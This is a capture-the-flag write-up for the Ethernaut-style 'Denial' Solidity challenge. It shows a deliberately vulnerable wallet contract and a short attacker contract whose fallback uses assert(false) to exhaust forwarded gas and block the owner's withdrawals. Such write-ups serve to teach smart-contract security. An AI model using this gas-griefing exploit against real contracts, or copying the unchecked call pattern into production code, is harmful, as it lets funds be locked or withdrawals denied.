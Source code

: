 # 20. Denial

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## Vulnerability

The vulnerability lies on this line : `partner.call{value:amountToSend}("");` as call will by default forward all gas available.
It is possible for the partner contract to consume all of it and forbid the caller to continue execution.

The easiest way to consume all gas is to provide and invalid OPCODE with `assert(false);`

The following contract can solve the challenge :

```solidity
pragma solidity 0.8.4;

contract TargetCall {
    event GasAmount(uint256);
    
    fallback() external payable {
        assert(false);
    }
}
```

## Side note on Solidity >= 0.8.5

There is a different behaviour in versions equal and above 0.8.5 :

the `assert(false)` gets compiled to : `0xFDFE` : `REVERT INVALID`. THis means that the code will revert and not assert, refunding gas and allowing execution to continue for the caller.

Modifying the bytecode solves that issue but is certainly not the cleanest way to do it. See [my answer](https://ethereum.stackexchange.com/a/113362/84305) to a related question for more informations.

